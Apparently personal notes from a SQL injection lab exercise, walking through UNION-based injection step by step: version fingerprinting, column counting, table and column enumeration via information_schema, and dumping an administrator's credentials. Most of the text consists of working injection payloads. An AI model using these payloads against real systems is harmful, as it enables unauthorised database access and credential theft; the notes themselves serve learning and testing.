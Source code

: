 # Preliminary Work
    - Test if SQL Injection is possible
        -- idk come back to it 
    - Get the SQL Version
        -- ' UNION SELECT @@version
        -- [Oracle] '+UNION+SELECT+*+FROM+v$version OR '+UNION+SELECT+BANNER+NULL+FROM+v$version
        -- SELECT version()
    - Determine number of columns needed for UNION
        -- ' ORDER BY (number)--
            -- stop when you get an error
        -- ' ORDER BY 3-- yielded error so we know there are 2 columns
            -- ALL tables have 2 columns
    - Determine which columns can handle text (to display juicy info)
        -- ' UNION SELECT 'a',NULL,NULL,...--
            -- some SQL versions use # for comments
        -- ' UNION SELECT 'a',NULL-- ||| ' UNION SELECT 'a','a'-- both worked
            -- both columns support text (good news for username and passwords)

# Looking Through the Database (non-Oracle)
    -- See which tables actually exist
        -- ' UNION SELECT table_name,NULL FROM information_schema.tables--
    -- Look through list of tables in response to find promising stuff
        -- First Try: pg_user
        -- Second Try: user_mappings
        -- Third Try: pg_user_mappings
        -- Fourth Try: pg_user_mapping
        -- Fifth Try: users_rhfkhb
            -- used CTRL-F with "users" to look through response
    -- Get the columns (and data type) from that table
        -- ' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'pg_user'--
        -- Columns: username_noyyxs | password_eyqvvd
    -- Get data from columns
        -- ' UNION SELECT username_noyyxs,password_eyqvvd FROM users_rhfkhb--
        -- Admin account info:
            uname: administrator
            pword: a6s5xe68qyib407piczf



